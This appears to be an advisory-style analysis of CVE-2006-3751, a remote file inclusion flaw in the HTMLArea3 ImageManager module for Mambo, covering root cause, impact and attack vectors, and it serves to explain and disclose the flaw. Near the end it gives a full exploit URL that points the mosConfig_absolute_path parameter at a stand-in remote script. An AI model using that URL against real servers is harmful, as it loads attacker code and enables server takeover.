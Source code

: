 Based on the provided information, here's an analysis of CVE-2006-3751:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) in the `config.inc.php` file of the HTMLArea3 ImageManager module for Mambo.
*   The `mosConfig_absolute_path` parameter in `config.inc.php` is not properly sanitized, allowing an attacker to inject a remote URL.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The application includes a file from a remote server specified by the attacker, allowing execution of arbitrary code on the server.

**Impact of Exploitation:**

*   **System Access:** Successful exploitation can lead to the attacker gaining complete control over the server by executing malicious code.

**Attack Vectors:**

*   **HTTP Request:** An attacker sends a specially crafted HTTP request to the vulnerable `config.inc.php` file, including a malicious URL in the `mosConfig_absolute_path` parameter.
*   **Network-based:** The vulnerability can be exploited remotely.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker must have network access to the target server hosting the vulnerable Mambo installation with the HTMLArea3 ImageManager module enabled.
*   **Basic HTTP knowledge:** The attacker needs to be able to send HTTP requests to the server.
*  **Knowledge of vulnerable parameters:** The attacker needs to know about the vulnerable `mosConfig_absolute_path` parameter.

**Additional Details:**

*   The vulnerability is present in HTMLArea3 ImageManager version 1.5.
*   The exploit URL is provided: `http://[target]/[path]/components/com_htmlarea3_xtd-c/popups/ImageManager/config.inc.php?mosConfig_absolute_path=http://evilscript`. This shows the `mosConfig_absolute_path` parameter in `config.inc.php` can be abused to include and execute a malicious script from a remote server.

This exploit leverages a lack of input validation on a configuration parameter to perform RFI, and can be classified as a highly critical risk.